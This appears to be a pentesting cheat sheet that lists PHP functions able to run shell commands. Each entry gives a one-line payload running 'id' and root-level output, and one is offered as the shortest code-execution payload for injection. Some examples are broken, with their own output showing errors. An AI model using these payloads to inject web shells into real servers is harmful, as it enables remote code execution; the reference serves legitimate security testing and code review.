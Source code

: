 ## General note regarding PHP tags
```php
// this is a valid php tag
<?php phpinfo(); ?>
// this is equavalent to <?php echo phpinfo(); ?>
<?=phpinfo()?>
// this is the shortest payload i know to execute code
<?=`id`?>
```

## Bracketless Shell Execution: `Backtick`
```php
php > echo `id`;
```
### Output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `Exec` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > echo exec('id');
```
### output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `Passthru` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > passthru("id");
```
### output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `Proc_open` (PHP 4 >= 4.3.0, PHP 5, PHP 7, PHP 8)
```php
# first, define this variable
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);
# start execution
php > proc_open('id > /tmp/id_output.txt', $descriptorspec, $pipes);
# verifying the execution occured
php > passthru('cat /tmp/id_output.txt');
```
### output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `Shell_exec` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > echo shell_exec('id');
```
### output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `System` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > system('id');
```
### output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `pcntl_exec` (PHP 4 >= 4.2.0, PHP 5, PHP 7, PHP 8)
```php
php > pcntl_exec('/bin/bash', array('-c', 'id'));
```
### Output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `popen` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > popen('id', 'w');
```
### Output
```
uid=0(root) gid=0(root) groups=0(root)
```

---

## PHP Execution: `Preg_replace` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > preg_replace('/.*/e', system('id') );
```
### output
```
uid=0(root) gid=0(root) groups=0(root)
PHP Warning:  Uncaught ArgumentCountError: preg_replace() expects at least 3 arguments, 2 given in php shell code:1
Stack trace:
#0 php shell code(1): preg_replace()
#1 {main}
  thrown in php shell code on line 1
```

## PHP Execution: `Eval` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > eval(system('id'));
```
### Output
```
uid=0(root) gid=0(root) groups=0(root)
PHP Parse error:  syntax error, unexpected token "=" in php shell code(1) : eval()'d code on line 1
```

## PHP Execution: `Create_Function` (PHP < 8.0.0)
```php
php > $newfunc = create_function('$cmd', 'system($cmd);');
php > $newfunc('id');
```
### Output
```
uid=0(root) gid=0(root) groups=0(root)
```